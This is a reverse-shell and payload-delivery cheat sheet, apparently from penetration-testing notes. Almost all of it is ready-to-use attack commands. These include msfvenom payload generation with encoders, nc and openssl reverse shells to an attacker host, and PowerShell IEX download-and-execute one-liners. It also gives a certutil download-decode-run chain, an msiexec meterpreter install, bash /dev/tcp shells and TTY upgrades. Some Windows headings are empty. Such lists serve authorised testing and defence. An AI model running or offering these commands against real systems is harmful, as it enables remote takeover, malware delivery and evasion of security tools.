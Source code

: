 ## Tools
https://reverse-shell.sh/
https://www.revshells.com/

# Meterpreter

List payloads: `msfvenom -l`
List encoders: `msfvenom -l encoders`

Common parameters for shellcode:
`-b "\x00\x0a\x0d"`
`-e x86/shikata_ga_nai -i 5`

### For Windows
#### Reverse shell
#### Bind shell
#### Create User

# Windows
`nc.exe -e cmd.exe <Attacker_IP> <PORT>`


### Using HTTPS
Attacker
`openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes #Generate certificate
`openssl s_server -quiet -key key.pem -cert cert.pem -port <l_port> #Here you will be able to introduce the commands`
`openssl s_server -quiet -key key.pem -cert cert.pem -port <l_port2> #Here yo will be able to get the response`

Victim
`openssl.exe s_client -quiet -connect <ATTACKER_IP>:<PORT1>|cmd.exe|openssl s_client -quiet -connect <ATTACKER_IP>:<PORT2>`

### Powershell
`powershell -exec bypass -c "(New-Object Net.WebClient).Proxy.Credentials=[Net.CredentialCache]::DefaultNetworkCredentials;iwr('http://$IP/FILE.ps1')|iex"`

`powershell "IEX(New-Object Net.WebClient).downloadString('http://$IP:$PORT/FILE.ps1')"`

`Start-Process -NoNewWindow powershell "IEX(New-Object Net.WebClient).downloadString('http://$IP:$PORT/FILE.ps1')"`

`echo IEX(New-Object Net.WebClient).DownloadString('http://$IP:$PORT/FILE.ps1') | powershell -noprofile`

### Certutil
Download a B64, decode and execute
`certutil -urlcache -split -f http://webserver/payload.b64 payload.b64 & certutil -decode payload.b64 payload.exe & payload.exe`

### MSIExec
Attacker:
`msfvenom -p windows/meterpreter/reverse_tcp lhost=$IP lport=$PORT -f msi > shell.msi`
`python -m http.server 8080`

Victim:
`msiexec /quiet /i \\10.2.0.5\kali\shell.msi`

# Linux
`curl https://reverse-shell.sh/1.1.1.1:3000 | bash`
`bash -i >& /dev/tcp/<ATTACKER-IP>/<PORT> 0>&1`
`sh -i >& /dev/udp/127.0.0.1/4242 0>&1 #UDP`
#Short and bypass (cretdits to Dikline)
`(sh)0>/dev/tcp/10.10.10.10/9091`
#after getting the previous shell, to get the output execute
`exec >&0``

## TTY
`python3 -c 'import pty; pty.spawn("/bin/bash")'`
`#(inside the nc session) CTRL+Z;stty raw -echo; fg; ls; export SHELL=/bin/bash; export TERM=screen; stty rows 38 columns 116; reset;`

`echo os.system('/bin/bash')`